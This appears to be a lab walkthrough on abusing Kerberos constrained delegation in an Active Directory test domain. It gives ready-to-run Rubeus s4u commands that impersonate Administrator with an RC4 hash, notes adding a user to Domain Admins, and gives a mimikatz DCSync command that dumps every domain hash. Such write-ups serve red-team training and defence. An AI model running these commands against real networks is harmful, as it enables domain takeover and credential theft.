

Constrained Delegation Abuse
⇒ So if you have compromised a user account / system on a machine that is allowed to delegate to Domain Controller's cifs / ldap service we can abuse that to own the domain controller!
- Refer to the lab creation guide: Kerberos Constrained Delegation Lab Creation
Explaining the Attack
⇒ msDS-AllowedToDelegateTo :
- For a given computer or user account, this attribute specifies the list of service principal names (SPN) corresponding to Windows services that can act on behalf of the computer or user account.
⇒ So here user enox is allowedtodelegate to impersonate as any user to the SPNs set as show in the screenshot [ i.e ldap and cifs ]
get-netuser | ?{$_.cn -like "naqi"} | select msds-allowedtodelegateto -ExpandProperty msds-allowedtodelegateto

- So basically we can authenticate to ldap and cifs services *on *VDC01 machine as any user we want.
⇒ S4U ( Service-For-User ) :
- So
S4Uis a set of kerberos extensions, which were implemented by Microsoft to avoid unconstrained delegations to run wild. - So the
s4u2fselfextension allows a service to request forwardable service tickets to itself on behalf of a particular user. This was implemented so that a user authenticate to a service somewhat not using Kerberos. - The extensions
s4u2proxyallows the service account to use the forwardable ticket to request a service ticket to the SPN specified in msds-allowedtodelegateto.
[ NOTE: This is only possible if the user has TRUSTED_TO_AUTH_FOR_DELEGATION flag set]
Performing The Attack
⇒ So to perform this attack we will be using Rubeus.exe tool which is a C# toolset for raw Kerberos interaction and abuses.
- It has s4u abuse extension which we can use to perform this attack
Tool : https://github.com/GhostPack/Rubeus
⇒ So as we saw previously we are allowed to delegate to :
- ldap
- cifs
⇒ We will be showing how to abuse both of the services to compromise the domain controller.
- First we will start with getting rc4 hash of the user :

RC4: **58A52D36C84FB7F5F1BEAB9A201DB1DD**
⇒ cifs/vdc01.endark.local :
- Now we will impersonate as Administrator user and request a ticket to
cifsservice :
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:cifs/vdc01.endark.local /ptt


- No winrm or mimikatz using “
cifs” . So we will instead create a user and add it to domain admins group :


Next you could just use RunAs or WinRm to the Domain Controller to get shell as the user we created and added to Domain Admins and run mimikatz to dump hashes for persistence.
⇒ ldap/vdc01.endark.local :
- Impersonating as Administrator user and getting a ticket for
ldapservice :
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:ldap/vdc01.endark.local /outfile:dc.kirbi

- Next we will just use the ticket with mimikatz to perform dcsync attack to dump all the hashes in the domain :
.\mimikatz.exe "kerberos::ptt dc_ldap_vdc01.endark.local.kirbi" "lsadump::dcsync /all /csv" "exit"

References : https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/ and https://www.harmj0y.net/blog/redteaming/another-word-on-delegation